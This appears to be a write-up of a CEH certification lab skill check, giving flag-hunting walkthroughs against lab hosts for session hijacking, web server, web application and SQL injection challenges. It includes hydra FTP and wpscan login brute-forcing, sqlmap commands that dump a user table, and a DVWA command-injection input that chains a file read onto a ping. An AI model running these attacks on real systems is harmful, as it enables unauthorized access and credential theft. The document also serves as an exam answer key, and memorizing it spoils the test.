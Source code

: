 **CEH Engage Part 3**

Part 3 of CEH Skill Check covers Session Hijacking, Evading IDS, Firewalls, and Honeypots, Hacking Web Servers, Hacking Web Applications, and SQL Injection modules. In this part, you must take over active network and application sessions, compromise firewall, IDS, and other perimeter defense mechanisms, and exploit the organization’s web applications. You need to note all the information discovered in this part of the Skill Check and proceed to the subsequent phases of the ethical hacking cycle in the next part of the Skill Check.

Flags

**Challenge 1:**

CEHORG suspects of a possible session hijacking attack on a machine in its network. The organisation has retained the network traffic data for the session at C:\Users\Admin\Documents in the EH Workstation – 2 as sniffsession.pcap. You have been assigned a task to perform an analysis and find out the protocol that has been used for sniffing on its network. (Format: AAA)

#Module 11 Session Hijacking - Lab2 - Wireshark#
![Screenshot 2024-12-12 at 11 49 56 AM](https://github.com/user-attachments/assets/d1210604-f1dc-4e0d-b089-729266bfc0a6)

**Challenge 2:**

Perform an HTTP-recon on www.certifiedhacker.com and find out the version of Nginx used by the web server. (Format: N.NN.N)

#Module 13 Hacking Web Servers - Lab1 - httprecon#
![Screenshot 2024-12-12 at 11 53 33 AM](https://github.com/user-attachments/assets/91dc1966-6db4-4f68-a38b-b722a7b749c8)


**Challenge 3:**

An FTP site is hosted on a machine in the CEHORG network. Crack the FTP credentials, obtain the “flag.txt” file and determine the content in the file. (Format: Aaaaaaa*AAA)

#Module 13 Hacking Web Servers - Lab2 - Hydra#

```
nmap -p 21 172.16.0.0/24

nmap -p 21 10.10.10.0/24

nmap -p 21 192.168.0.0/24
```

```
hydra -L <username.txt> -P <password.txt> ftp://172.16.0.12
```
![Screenshot 2024-12-12 at 12 08 57 PM](https://github.com/user-attachments/assets/cdab6979-a6b1-4ec8-863e-314000aa648b)

![Screenshot 2024-12-12 at 12 11 40 PM](https://github.com/user-attachments/assets/98e5919d-cd2a-4632-a20e-17075b4f6b14)

**Challenge 4:**

Perform Banner grabbing on the web application movies.cehorg.com and find out the ETag of the respective target machine. (Format: "NaNNNNNaaaNaaNN*N")

#Module 14 Hacking Web Applications - Lab1 - telnet#

```
telnet movies.cehorg.com 80
```
![Screenshot 2024-12-12 at 12 23 44 PM](https://github.com/user-attachments/assets/52183f4e-c8eb-447b-ba62-cdd385f3fd97)


**Challenge 5:**

Identify the Content Management System used by www.cehorg.com. (Format: AaaaAaaaa)

#Module 14 Hacking Web Applications - Lab1 - whatweb#

```
whatweb www.cehorg.com -v
```
![Screenshot 2024-12-12 at 2 49 33 PM](https://github.com/user-attachments/assets/b8dd8ae6-6773-4b62-a861-adf297c3056e)

**Challenge 6:**

Perform web application reconnaissance on movies.cehorg.com and find out the HTTP server used by the web application. (Format: Aaaaaaaaa-AAA/NN.N)

#Module 14 Hacking Web Applications - Lab1 - whatweb#

```
whatweb movies.cehorg.com -v
```
![Screenshot 2024-12-12 at 2 52 07 PM](https://github.com/user-attachments/assets/a7ea1d8a-b634-4cae-a2f1-2eb3c6282fc1)

**Challenge 7:**

Perform Web Crawling on the web application movies.cehorg.com and identify the number of live png files in images folder. (Format: N)

#Module 14 Hacking Web Applications - Lab1 - OWASP ZAP#

![Screenshot 2024-12-12 at 2 59 23 PM](https://github.com/user-attachments/assets/2c3a4375-fa10-4a52-8673-082863b51583)

**Challenge 8:**

Identify the load balancing service used by eccouncil.org. (Format: aaaaaaaaaa)

#Module 14 Hacking Web Applications - Lab1 - lbd command#
![Screenshot 2024-12-12 at 3 04 58 PM](https://github.com/user-attachments/assets/eb0e3f9d-4858-4e17-9eb0-03e0914d6445)


**Challenge 9:**

Perform a bruteforce attack on www.cehorg.com and find the password of user adam. (Format: aaaaaaNNNN)

#Module 14 Hacking Web Applications - Lab2 - wpscan#
```
wpscan --url http://cehorg.com/wp-login.php -U ./Usernames.txt -P ./Passwords.txt
```
![Screenshot 2024-12-12 at 4 14 02 PM](https://github.com/user-attachments/assets/89170933-70c0-4c81-950c-70deeffa24be)


**Challenge 10:**

Perform parameter tampering on movies.cehorg.com and find out the user for id 1003. (Format: Aaaaa)

#Module 14 Hacking Web Applications - Lab2 - XSS Vuberability#
![Screenshot 2024-12-12 at 3 19 27 PM](https://github.com/user-attachments/assets/37b7e592-3b46-40b6-910b-04c23303e353)


**Challenge 11:**

Perform a SQL Injection attack on movies.cehorg.com and find out the number of users available in the database. Use Jason/welcome as login credentials. (Format: N)

#Module 15 SQL Injection - Lab1 -sqlmap#

```
document.cookie
```
![Screenshot 2024-12-12 at 3 31 53 PM](https://github.com/user-attachments/assets/84fb2749-dbd7-4c51-8329-e30a63b8a00b)

```
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value that you copied in Step 8]" --dbs

```
![Screenshot 2024-12-12 at 3 42 09 PM](https://github.com/user-attachments/assets/88d0eba5-9d66-4657-9991-87a8e06dd2aa)

```
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step 8]" -D moviescope --tables
```
![Screenshot 2024-12-12 at 3 42 45 PM](https://github.com/user-attachments/assets/16e09ee5-282b-4d60-bb93-a17e1919943b)

```
sqlmap -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="[cookie value which you have copied in Step 8]" -D moviescope -T User_Login --dump

```
![Screenshot 2024-12-12 at 3 43 38 PM](https://github.com/user-attachments/assets/084f945a-f7ce-480c-8f49-8a5f986ff0e6)

**Challenge 12:**

Perform XSS vulnerability test on www.cehorg.com and identify whether the application is vulnerable to attack or not. (Yes/No). (Format: Aa)

#Module 14 Hacking Web Applications - Lab1 - OWASP ZAP#
![Screenshot 2024-12-12 at 4 16 43 PM](https://github.com/user-attachments/assets/13fcd029-9dc9-48b0-98f4-7a8f9347f3c2)

**Challenge 13:**

A file named Hash.txt has been uploaded through DVWA (http://10.10.10.25:8080/DVWA). The file is located in the directory mentioned below. Access the file and crack the MD5 hash to reveal the original message; enter the content after cracking the hash. You can log into the DVWA using the following credentials. Note: Username- admin; Password- password Path: C:\wamp64\www\DVWA\hackable\uploads\Hash.txt Hint: Use “type” command to view the file. Use the following link to decrypt the hash- https://hashes.com/en/decrypt/hash (Format: Aa*aaNa)

#Module 14 Hacking Web Applications - Lab2 -DVWA#

```
127.0.0.1 && type C:\wamp64\www\DVWA\hackable\uploads\Hash.txt
```
![Screenshot 2024-12-12 at 4 29 20 PM](https://github.com/user-attachments/assets/8fda9f90-2733-4b15-87f6-ca012900ab96)
![Screenshot 2024-12-12 at 4 30 07 PM](https://github.com/user-attachments/assets/a9ca24db-1833-4bf0-b245-3e41d5681bfe)


**Challenge 14:**

Perform command injection attack on 10.10.10.25 and find out how many user accounts are registered with the machine. Note: Exclude admin/Guest user (Format: N)

**Challenge 15:**

You have identified a vulnerable web application on a Linux server at port 8080. Exploit the web application vulnerability, gain access to the server and enter the content of RootFlag.txt as the answer. (Format: Aa*aaNNNN)
